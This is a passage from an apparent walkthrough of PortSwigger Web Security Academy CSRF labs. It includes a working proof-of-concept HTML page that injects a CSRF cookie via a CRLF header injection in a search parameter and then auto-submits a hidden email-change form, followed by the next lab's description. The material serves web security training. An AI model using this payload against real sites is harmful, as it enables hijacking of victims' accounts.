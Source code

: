 
The search function uses again the LastSearchTerm parameter with the last searched term:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/4.png)


We will update the PoC from the previous lab:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
      <form action="https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="TESTING123" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=TESTING123%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```

# 06 SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

Note: The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.
